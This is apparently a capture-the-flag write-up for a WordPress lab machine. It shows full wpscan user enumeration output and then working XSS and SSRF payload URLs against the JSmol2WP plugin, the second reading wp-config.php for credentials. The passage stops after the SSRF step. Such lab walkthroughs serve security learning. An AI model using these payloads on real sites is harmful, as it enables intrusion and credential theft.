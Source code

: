 # <div align='center'>[Smol](https://tryhackme.com/room/smol)</div>
<div align='center'>Test your enumeration skills on this boot-to-root machine.</div>
<div align='center'>
  <img src="https://github.com/user-attachments/assets/5a41a6b8-182b-4820-b171-a327310003d5" heigh="200"></img>
</div>

Step 1: Recoonance

1. Add to etc host
```
echo "10.10.165.190 www.smol.thm" | sudo tee -a /etc/hosts
```
wordpress scan
```
death@esther:~$ wpscan --url http://www.smol.thm --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://www.smol.thm/ [10.10.165.190]
[+] Started: Sun Jun  1 22:25:22 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://www.smol.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://www.smol.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://www.smol.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://www.smol.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.7.1 identified (Outdated, released on 2024-11-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://www.smol.thm/index.php/feed/, <generator>https://wordpress.org/?v=6.7.1</generator>
 |  - http://www.smol.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.7.1</generator>

[+] WordPress theme in use: twentytwentythree
 | Location: http://www.smol.thm/wp-content/themes/twentytwentythree/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://www.smol.thm/wp-content/themes/twentytwentythree/readme.txt
 | [!] The version is out of date, the latest version is 1.6
 | [!] Directory listing is enabled
 | Style URL: http://www.smol.thm/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:03 <==========> (10 / 10) 100.00% Time: 00:00:03

[i] User(s) Identified:

[+] Jose Mario Llado Marti
 | Found By: Rss Generator (Passive Detection)

[+] wordpress user
 | Found By: Rss Generator (Passive Detection)

[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] think
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] wp
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://www.smol.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)

[+] gege
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] diego
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] xavi
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jun  1 22:25:41 2025
[+] Requests Done: 61
[+] Cached Requests: 9
[+] Data Sent: 16.548 KB
[+] Data Received: 433.15 KB
[+] Memory used: 193.012 MB
[+] Elapsed time: 00:00:19
```

We find two vulnerabilities to smol, one that allows us to use XSS and one that allows us to use SSRF to read data on the system. On the referenced pages in the WPScan we also receive the payloads as POC, we only have to adjust the host.
1.  [JSmol2WP <= 1.07](https://wpscan.com/vulnerability/0bbf1542-6e00-4a68-97f6-48a7790d1c3e/) - Unauthenticated Cross-Site Scripting (XSS)
2.  [JSmol2WP <= 1.07](https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611/)_ - Unauthenticated Server Side Request Forgery (SSRF)

If i Exploit [XSS](http://www.smol.thm//wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=saveFile&data=%3Cscript%3Ealert(/xss/)%3C/script%3E&mimetype=text/html;%20charset=utf-8)
![image](https://github.com/user-attachments/assets/a596aae1-d0c5-4861-b167-7c395c7b2ab6)

Exploiting [SSRF](http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php) Vulnerability:

exploiting the vulnerbility the wp-config file is loaded here, which could also contain credentials.
